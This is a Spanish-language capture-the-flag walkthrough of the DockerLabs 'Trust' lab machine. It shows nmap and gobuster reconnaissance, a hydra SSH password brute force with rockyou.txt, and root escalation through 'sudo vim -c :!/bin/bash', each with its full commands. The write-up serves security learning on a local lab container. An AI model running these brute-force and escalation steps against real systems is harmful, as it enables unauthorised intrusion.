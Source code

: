 Máquina: [Trust](https://dockerlabs.es/#/#Trust), from DockerLabs

## 1) Me anoto la IP que es fundamental para saber a quien atacar

## 2) nmap para identificar posibles puertos abiertos
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Cada parámetro:

`-p-: quiero explorar los 65535 puertos pues no se cual puede estar abierto`\
`--open: sólo me importan los abiertos, ni cerrados ni filtrados`\
`-sS: quiero que haga stealth scanning, es un escaneo silencioso que no completa el 3 way handshake`\
`-vvv: que sea bien verboso, a medida que encuentra un resultado, lo escupa`\
`---min-rate XXXX: que sea veloz y no mande menos de tantos pkg por segundo`\
`-n: no quiero resolución DNS, es lento`\
`-Pn: quiero evitar que haga host discovery, puede ser lento`

##3) Una vez identificados posibles puertos abiertos quiero ser más exhaustivo con el análisis de cada uno
```
nmap -p22,80 -sC -vvv 172.17.0.2
```
`-p22,80: acá pongo los puertos que me identificó como abiertos previamente`\
`-sC: el tipo de script que quiero que corra para realizar un escaneo, es el default, scripts en Lua. Va a brindar información sobre el host y tecnologias que usa`\

## 4) otra utilidad para conocer detalles de la IP víctima es whatweb
`whatweb 172.17.0.2`
Da información sobre el sistema operativo, la versión de Apache o lo que estuviese corriendo, y más.

## 5) Ahora voy a hacer fuzzing para investigar qué endpoints hay
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt
```
Hago fuzzing por medio de gobuster y utilizando una lista de palabras

`dir: para utilizar el modo de enumeración de archivos/directorios `\
`-w <PATH>: la lista de palabras a utilizar para el fuzz`\
`-t X: cantidad de threads concurrentes`\
`-x php,txt el tipo de extensiones a buscar (ej. index.php, secrets.txt) `\

Encontré una página:
/secret.php --> dice "Hola Mario"

## 6) Como la página dice 'Hola Mario' y previamente con nmap descubrí que el puerto 22 (SSH) estaba abierto, pienso hacerle fuerza bruta al usuario mario/root.
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP> -t 64
```
`-l <USER>: seteo el USER, el nombre de logeo`\
`-P <FILE>: cargo el archivo con contraseñas para hacer fuerza bruta`\
`-t N: cuantas tareas correr en paralelo por cada ataque`\

Encontré la contraseña del usuario mario:
user: mario | passw: chocolate

Pero necesito la del usuario root

## 7) Necesito escalar privilegios desde el user mario al user root
```
sudo -l
```
Verifico si el usuario actual tiene algún tipo de permiso especial.
Resulta que tiene permiso para correr cualquier cosa con `/usr/bin/vim`. Con lo cual si puedo correr a nivel de sudo vim, puedo aprovechar y ejecutar un comando junto con el launch de vim, por ejemplo
```
sudo /usr/bin/vim -c ':!/bin/bash'
```
Esto me va a abrir una terminal de bash en la cual seré un usuario root. Una vez que cierre esa bash me va a devolver a vim. Sin embargo acá ya termina la máquina pues logré acceder al usuario root.

## Resumen del ataque

Este método funcionó por lo siguiente:
* Los puertos de SSH y HTTP (22,80) están abiertos
* Encontramos un endpoint que advirtió del nombre de un usuario: Mario
* La password del usuario era muy simple y se le pudo hacer fuerza bruta, logrando conexión via SSH
* El usuario puede correr `/usr/bin/vim` como root
